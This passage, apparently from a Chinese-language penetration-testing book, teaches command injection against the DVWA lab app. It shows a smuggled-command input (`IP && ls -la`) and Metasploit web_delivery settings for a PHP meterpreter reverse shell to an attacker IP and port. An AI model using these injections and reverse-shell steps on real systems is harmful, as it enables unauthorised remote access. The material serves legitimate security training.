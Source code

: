2.  让我们尝试执行一个简单的命令，例如列出当前目录。由于表单需要一个 IP 地址，我们将定义一个 IP，但使用附加字符`&&`添加额外的命令。要列出目录，我们将使用`-ls -la`。完整的评论将是`192.168.34.153 && ls -la`。
    在这个命令中，我们定义了一个随机 IP（我正在使用我的 Kali 虚拟机的 IP），并使用`&&`附加了一个额外的命令。此命令列出了`ls`目录。我们可以使用长长的列表`-l`查看这些文件，并包括所有文件`a`。以下是我们收到的输出：

![](assets/986bf30d-3560-49c5-ba52-4949593087c5.png)

图 21：命令执行攻击

在这里，我们有实际的 ping 命令，但在底部，我们有当前目录的列表。现在，我们知道命令执行是可能的。让我们看看是否可以使用 Metasploit 获得远程 shell。

3.  在终端窗口中，我们将使用`msfconsole`命令启动 Metasploit 框架。
4.  我们将使用脚本传递漏洞。输入`use exploit/multi/script/web_delivery`命令，然后输入`show options`查看可用选项：

![](assets/73085fa5-692d-4823-a007-991288763c2f.png)

图 22：在 Metasploit 中加载漏洞

5.  现在，我们需要定义目标。通过使用`show targets`命令，我们可以看到此漏洞攻击将针对哪些目标。在我们的案例中，我们将使用`PHP`：

![](assets/2f7b5ad8-d91d-4eea-b7f5-6083a2c4d058.png)

图 23：利用漏洞的可用目标

6.  现在，我们将配置该漏洞。设置以下选项：

```
set Target 1
set LHOST 192.168.34.153
set LPORT 1337
set payload php/meterpreter/reverse_tcp
```

记住，`LHOST`是您的 Kali 虚拟机 IP，`LPORT`可以是任何随机端口号。我们使用的负载是反向 TCP`meterpreter`外壳。您可以使用`show options`命令确认您的选项：

![](assets/fc3fd8c5-35e0-4610-8ab1-2aa9c0c394a3.png)

图 24：配置漏洞利用选项

7.  配置完这些选项后，使用`run`命令运行漏洞利用。注意输出。突出显示的代码是我们将在命令执行攻击中使用的代码，用于为我们的攻击系统生成一个反向外壳。复制该代码，不要关闭终端窗口或退出 Metasploit：

![](assets/b4cbfdb6-84d4-4849-b5f9-029fb75bf700.png)

图 25：使用定义的反向 PHP 脚本运行的漏洞

8.  返回 DVWA 中的命令执行页面。现在，输入一个 IP 地址并使用`&&`和 Metasploit 生成的代码将其追加：

![](assets/fa118290-8fbf-4227-8363-b205bb730082.png)

图 26：使用命令执行攻击运行恶意脚本

单击提交后，您将开始一个`meterpreter`会话。返回到终端窗口，在该窗口中配置了漏洞利用。

9.  现在，您将看到您已经启动并运行了`meterpreter`会话。点击*输入*将带您返回漏洞利用配置页面，但您的会话仍将建立。您可以使用`sessions -i`命令来检查这一点。要访问此会话，请使用`sessions -i [session ID]`命令：
